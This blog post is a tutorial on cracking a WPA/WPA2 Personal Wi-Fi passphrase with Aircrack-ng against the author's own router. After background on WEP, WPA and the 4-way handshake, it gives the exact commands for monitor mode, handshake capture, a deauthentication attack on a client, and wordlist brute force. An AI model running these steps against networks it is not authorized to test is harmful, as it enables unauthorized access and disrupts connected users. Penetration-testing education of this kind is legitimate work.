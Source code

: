 ```yaml
---
layout: post
title: Hacking a Wireless Access Point (Router) with WPA/WPA2 Personal Encryption
  using the Aircrack-ng Suite
featured: true
excerpt_separator: <!--more-->
date: '2020-03-06 03:00:11'
tags:
- hacking
- penetration-testing
- kali-linux
- linux
- wifi
- wifi-hacking
- wireless
- wireless-hacking
---
```


## Introduction

#### WPA

After WEP encryption was introduced with the ratification of the IEEE 802.11 standard in 1997, it was quickly discovered to be vulnerable to a myriad of exploits. As such, the Wi-Fi Alliance, in conjunction with the IEEE, adopted a quick fix for this increasingly risky encryption mechanism - WPA (Wi-Fi Protected Access) - in 2003. WPA sought to implement fixes for major flaws that were exposed in WEP with the most important change being the adoption of the new security protocol, TKIP (Temporal Key Integrity Protocol). TKIP introduced a few major improvements over WEP including:

- Implementation of a packet sequencer so out-of-order packets are rejected
- Mixes root keys with IVs on a key-by-key basis instead of appending root key with IV
- Stronger data assurance than the Cyclic Redundancy Check (CRC) from WEP with the introduction of a 64-bit MIC (Message Integrity Check)
<!--more-->
TKIP provided much needed security for an increasingly vulnerable wireless world back in those days. [Hacking WEP encryption](/hacking-a-wep-encrypted-wireless-access-point-using-the-aircrack-ng-suite/) was becoming tooled, weaponized, and unfortunately, trivial before WPA replaced it. However, since WPA was a temporary solution, it still used WEP's RC4 stream cipher. The Wi-Fi Alliance quickly enhanced WPA a year after it's public reveal with the introduction of WPA2 to combat additional possible vulnerabilities, but it wasn't enough.

#### WPA2

The Wi-Fi Alliance quickly pushed out WPA to quickly fix the vulnerabilities of WEP, but the Wi-Fi Alliance had a true Wi-Fi security standard in the works. In 2004, the Wi-Fi Alliance and IEEE released the 802.11i standard. So, WPA was a quick fix to WEP that essentially introduced TKIP overlayed onto RC4. WPA2's most important features are:

- Introduction of AES encryption opposed to the RC4 cipher
- Introduction of the CCM mode Protocol (CCMP) to replace TKIP (allows for TKIP for backward compatibility)
- Most importantly, it uses a 4-way handshake for authentication

##### The WPA2 4-Way Handshake

The two figures below were taken from the [Clear To Send Podcast](cleartosend.net) and describe the 4-way handshake:

![4-way-1](/assets/images/03/4-way-1.png)

![4-way-2](/assets/images/03/4-way-2.png)

Lastly, there are two main modes of WPA/WPA2 - Personal and Enterprise. Personal is the typical hexadecimal or alphanumeric passphrase. Enterprise uses the router as an authenticating controller in front of an authenticating server, usually a RADIUS server; but Enterprise is out of scope for this post. This post will cover how to crack WPA/WPA2 personal encrypted Wi-Fi networks. To do this, we will capture the 4-way handshake with Aircrack-ng and brute force the passphrase by presenting the 4-way handshake for each passphrase attempt. Let's get started with the proof of concept. It is far simpler than WEP, thankfully.

Note: As of this writing, some access points offer the WPA/WPA2 TKIP/AES "mixed-mode" option. This allows for Wi-Fi devices to be backwards compatible and interoperable without extra hardware.

_Disclaimer: This post is meant for educational purposes only and any information obtained sholuld not be used for malicious purposes. I will not be responsible for any damage, harm, or legal action derived from any information within this post._

## Proof of Concept

_If you need help with a Wi-Fi penetration testing Setup for these attacks, I've written a short post about that [HERE](/setting-up-a-new-wi-fi-hacking-setup/)_

_These attacks use the Aircrack-ng suite_

For this proof-of-concept, I am using the following software/hardware:

- Laptop running Windows 10
- Alfa AWUS036NHA Wireless Adapter
- D-Link DIR-615 Wireless N 300 Router
- Virtualbox Version 6.1.4
- Kali Linux 2020.1
- Aircrack-ng 1.5.2 (comes with Kali Linux)

### The Attack

As of this writing, there has been quite a few vulnerabilities discovered from WPA/WPA2 networks. The typical deauth attack still exists; the [KRACK attack](https://www.krackattacks.com/) was discovered in 2017; [Bettercap](https://www.bettercap.org/) assisted with the [PMKID attack](https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/) beginning around early 2019; packets can be spoofed; and finally, weak passphrases can be implemented by admins which brings us to the attack in this post: a password brute-force attack. In this attack I use the Aircrack-ng suite with a Kali Linux VM to capture the 4-way handshake of a router I own. Then, Aircrack-ng is able to present the handshake and attempt a password try, multiple times a second. If the password is weak on the router, we are able to crack it with Aircrack-ng and be provided access to the network. Depending on if they have brute-force security measures and/or proper network segmentation. This proof of concept was done in my SOHO with my own router and devices, as listed above.

The first step of the attack is to first choose or be given an access point with WPA/WPA2 encryption to exploit. You can find this information with 'airodump-ng'. A small guide on how to do that is here: [https://ryandinho.me/hacking-a-wep-encrypted-wireless-access-point-using-the-aircrack-ng-suite/#discoveringvictimroutereasily](/hacking-a-wep-encrypted-wireless-access-point-using-the-aircrack-ng-suite/#discoveringvictimroutereasily). The attack also assumes your wireless adapter is capable of packet injection and promiscuous mode. Another guide on how to do that is here: [https://ryandinho.me/hacking-a-wep-encrypted-wireless-access-point-using-the-aircrack-ng-suite/#injectiontest](/hacking-a-wep-encrypted-wireless-access-point-using-the-aircrack-ng-suite/#injectiontest)

**START**

- Find out the name of your wireless card interface using airmon-ng:

`airmon-ng`

![final-wpa-1](/assets/images/03/final-wpa-1.png)

The interface name is "wlan0"

- Put your wireless card in monitor mode ON THE SAME CHANNEL AS THE VICTIM AP (THIS IS A MUST):

'airmon-ng start wlan0 11'

![final-wpa-2](/assets/images/03/final-wpa-2.png)

The channel number goes at the end of the command, highlighted above.

- Use airmon-ng again to ensure the interface name has been changed:

`airmon-ng`

![final-wpa-3](/assets/images/03/final-wpa-3.png)

It is "wlan0mon".

- Perform a packet capture of the victim router and output it to a file using airodump-ng:

`airodump-ng -c 11 -d 00:18:E7:EA:28:87 -w WPA-WPA2-Output wlan0mon`

![wpa-2](/assets/images/03/wpa-2.png)

    -c: The channel to filter on (11)
    -d: The MAC address of the victim router (00:18:E7:EA:28:87)
    -w: the filename to output the pcap to (WPA-WPA2-Output)

The following window should appear but with your specifications:

![wpa-3](/assets/images/03/wpa-3.png)

**KEEP THIS WINDOW RUNNING TO WAIT FOR THE 4-WAY HANDSHAKE!!!**

- The first step is to capture the 4-way handshake. To do this we will deauthenticate a client using the [deauthentication attack](/hacking-a-wep-encrypted-wireless-access-point-using-the-aircrack-ng-suite/#deauthentication) and capture the handshake when they reauthenticate:

`aireplay -0 1 -a 00:18:E7:EA:28:87 -c 00:04:4B:59:10:88 wlan0mon`

![wpa-4](/assets/images/03/wpa-4.png)

Pictured above is the output of a successful deauthentication attack against the victim router, of a victim client. The client I deauthenticated was an Android tablet I had. The picture below shows the output of the airodump-ng menu when the client is deauthenticated and the 4-way handshake is subsuqeuently captured. The highlighted box shows the output of a successful handshake capture.

![final-wpa-7](/assets/images/03/final-wpa-7.png)

Once the handshake is captured we can begin the brute force attack. For this attack we will use a wordlist that comes with Kali Linux on the cap file.

- This final step uses aircrack-ng to brute force the password on the router:

`aircrack-ng -w ../usr/share/wordlists/rockyou.txt WPA-WPA2-Output-01.cap`

![wpa-6](/assets/images/03/wpa-6.png)

    -w: the wordlist file path (../usr/share/wordlists/rockyou.txt) or (path/to/file)

- Finally, below is the output of a successful key capture on the cap file

![final-wpa-9](/assets/images/03/final-wpa-9.png)

Notice that the attack took 48 minutes and 54 seconds. This isn't particularly unusual so be prepared for that. However, this depends on your machine and wordlist file size you use. I am on a VM itterating through a massive text file.

If there are any questions, concerns, or errors in the post feel free to contact me through email or in the comments below. Thanks!
